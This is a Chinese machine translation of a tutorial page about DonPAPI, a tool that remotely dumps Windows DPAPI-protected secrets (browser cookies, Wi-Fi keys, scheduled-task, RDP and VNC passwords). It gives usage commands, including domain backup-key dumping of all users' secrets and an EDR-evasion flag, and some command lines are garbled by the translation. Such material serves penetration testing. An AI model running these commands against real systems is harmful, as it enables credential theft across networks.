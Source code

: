 # DonPAPI:远程转储 DPAPI Credz

> 原文：<https://kalilinuxtutorials.com/donpapi/>

[![](img//8bc50c301a862c25f574f4578c699e77.png)](https://blogger.googleusercontent.com/img/a/AVvXsEh31moiawfG0NNArrw3AJ_ZGYLB7xaitSlUnjgYuWKMQA2C-zLFjQ5-lUBm-J3v5NFvvYyZ9AdsX-24U8-Dq6cVFR6-HM0hUmJXHrgtRNhiMqY9RjaXbAYxjzGxiIb6nqDwA78oU4AhPtMemFTiI0HOgDDXfk95oq-HqODfua6gNz-xHaDcGbmk3p6W=s728)

**DonPAPI** 是远程转储 DPAPI Credz。

**DPAPI 转储**

DPAPI 保护许多凭据。

我们的目标是找到这些“安全的”凭据，并使用以下方法检索它们:

*   用户口令
*   DPAPI 备份密钥域
*   本地机器 DPAPI 密钥(保护`**TaskScheduled**` blob)

**当前收集的信息**

*   Windows 凭据(任务计划凭据及更多)
*   Windows 保管库
*   Windows RDP 凭据
*   AdConnect(仍需要手动操作)
*   Wifi 钥匙
*   internet explorer 屏幕元素
*   Chrome cookies 和凭证
*   Firefox cookies 和凭证
*   VNC 密码
*   mRemoteNG 密码(默认配置)

**检查一点合规性**

*   SMB 签名状态
*   审核范围的操作系统/域/主机名/Ip

**作战使用**

使用主机上的本地管理员帐户，我们可以:

*   收集机器保护的 DPAPI 机密
    *   ScheduledTask 将包含配置为运行任务的帐户的明文登录/密码
    *   Wi-Fi 密码
*   为每个用户配置文件提取主密钥的哈希值(主密钥受到用户密码的保护，让我们尝试用 Hashcat 来破解它们)
*   确定谁从哪里连接，以便识别管理员的个人计算机。
*   提取其他非 dpapi 保护的机密(VNC/火狐/mRemoteNG)
*   从 IE、Chrome、Firefox 收集受保护的秘密，并开始接触 Azure 租户。

使用用户密码或域 PVK，我们可以解除对用户 DPAPI 机密的保护。

**例子**

使用管理员帐户转储目标计算机的所有机密:

**DonPAPI.py 域/用户:passw0rd@target**

使用用户的哈希

**don papi . py–hashes:domain/user @ target**

使用 kerberos (-k)和本地身份验证(-local_auth)

**DonPAPI.py -k 域/用户@目标
DonPAPI.py -local_auth 用户@目标**

使用具有 LAPS 密码读取权限的用户

**don papi . py-laps DOM**ain/user:pass w0 rd @ target

还可以向工具提供将在目标上测试的凭证列表。东帕皮会试着用它们来破译万能钥匙。

此凭据文件必须具有以下语法:

**用户 1:通行证 1
用户 2:通行证 2
……**

**don papi . py-credz credz _ file . txt 域/用户:passw0rd@target**

当域管理员用户可用时，可以使用 impacket `dpapi.py`工具转储域备份密钥。

**DP API . py backup key–导出**

这个备份密钥可以用来转储所有域用户的秘密！

**python donpapi . py-pvk domain _ backup key . pvk domain/user:pass w0 rd @ domain _ network _ list**

目标可以是包含目标列表(每行一个)的 IP、IP 范围、CIDR 文件

**Opsec 考虑**

RemoteOps 部分可能会被一些 EDR 人发现。可以使用`**--no_remoteops**`标志禁用它，但这样将不会检索机器 DPAPI 密钥，也不会获取计划任务凭据/Wi-Fi 密码。

**安装**

**git 克隆 https://github.com/login-securite/DonPAPI.git
CD don papi
python 3-m pip install-r requirements . txt
python 3 don papi . py**

[**Download**](https://github.com/login-securite/DonPAPI)